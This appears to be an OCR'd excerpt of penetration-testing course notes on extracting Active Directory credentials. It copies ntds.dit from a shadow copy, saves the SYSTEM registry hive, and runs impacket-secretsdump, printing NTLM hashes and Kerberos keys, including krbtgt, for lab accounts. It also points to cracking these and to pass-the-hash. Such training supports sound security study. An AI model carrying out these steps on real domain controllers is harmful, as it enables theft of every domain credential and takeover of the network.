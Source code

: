 Once the snapshot has been taken successfully, we should take note of the shadow copy device name
+ We'll now copy the whole AD Database from the shadow copy to the **C:** drive root folder by specifying the shadow copy device name and append the full **ntds.dit** path:
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```
+ As a last ingredient, to correctly extract the content of **ntds.dit**, we need to save the SYSTEM hive from the Windows registry
+ We can accomplish this with the **reg** utility and the **save** argument
```
reg.exe save hklm\system c:\system.bak
```

Once the two **.bak** files are moved to our Kali machine, we can continue extracting the credential materials with the _secretsdump_ tool from the impacket suite
+ We'll supply the ntds database and the system hive via **-ntds** and **-system**, respectively along with the **LOCAL** keyword to parse the files locally
```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```
+ Example:
```
kali@kali:~$ impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xbbe6040ef887565e9adb216561dc0620
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 98d2b28135d3e0d113c4fa9d965ac533
[*] Reading and decrypting hashes from ntds.dit.bak
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC1$:1000:aad3b435b51404eeaad3b435b51404ee:eda4af1186051537c77fa4f53ce2fe1a:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1693c6cefafffc7af11ef34d1c788f47:::
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
stephanie:1104:aad3b435b51404eeaad3b435b51404ee:d2b35e8ac9d8f4ad5200acc4e0fd44fa:::
jeff:1105:aad3b435b51404eeaad3b435b51404ee:2688c6d2af5e9c7ddb268899123744ea:::
jeffadmin:1106:aad3b435b51404eeaad3b435b51404ee:e460605a9dbd55097c6cf77af2f89a03:::
iis_service:1109:aad3b435b51404eeaad3b435b51404ee:4d28cf5252d39971419580a51484ca09:::
WEB04$:1112:aad3b435b51404eeaad3b435b51404ee:87db4a6147afa7bdb46d1ab2478ffe9e:::
FILES04$:1118:aad3b435b51404eeaad3b435b51404ee:d75ffc4baaeb9ed40f7aa12d1f57f6f4:::
CLIENT74$:1121:aad3b435b51404eeaad3b435b51404ee:5eca857673356d26a98e2466a0fb1c65:::
CLIENT75$:1122:aad3b435b51404eeaad3b435b51404ee:b57715dcb5b529f212a9a4effd03aaf6:::
pete:1123:aad3b435b51404eeaad3b435b51404ee:369def79d8372408bf6e93364cc93075:::
jen:1124:aad3b435b51404eeaad3b435b51404ee:369def79d8372408bf6e93364cc93075:::
CLIENT76$:1129:aad3b435b51404eeaad3b435b51404ee:6f93b1d8bbbe2da617be00961f90349e:::
[*] Kerberos keys from ntds.dit.bak
Administrator:aes256-cts-hmac-sha1-96:56136fd5bbd512b3670c581ff98144a553888909a7bf8f0fd4c424b0d42b0cdc
Administrator:aes128-cts-hmac-sha1-96:3d58eb136242c11643baf4ec85970250
Administrator:des-cbc-md5:fd79dc380ee989a4
DC1$:aes256-cts-hmac-sha1-96:fb2255e5983e493caaba2e5693c67ceec600681392e289594b121dab919cef2c
DC1$:aes128-cts-hmac-sha1-96:68cf0d124b65310dd65c100a12ecf871
DC1$:des-cbc-md5:f7f804ce43264a43
krbtgt:aes256-cts-hmac-sha1-96:e1cced9c6ef723837ff55e373d971633afb8af8871059f3451ce4bccfcca3d4c
krbtgt:aes128-cts-hmac-sha1-96:8c5cf3a1c6998fa43955fa096c336a69
krbtgt:des-cbc-md5:683bdcba9e7c5de9
...
[*] Cleaning up...
```
+ We managed to obtain NTLM hashes and Kerberos keys for every AD user, which can now be further cracked or used as-is through pass-the-hash attacks


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname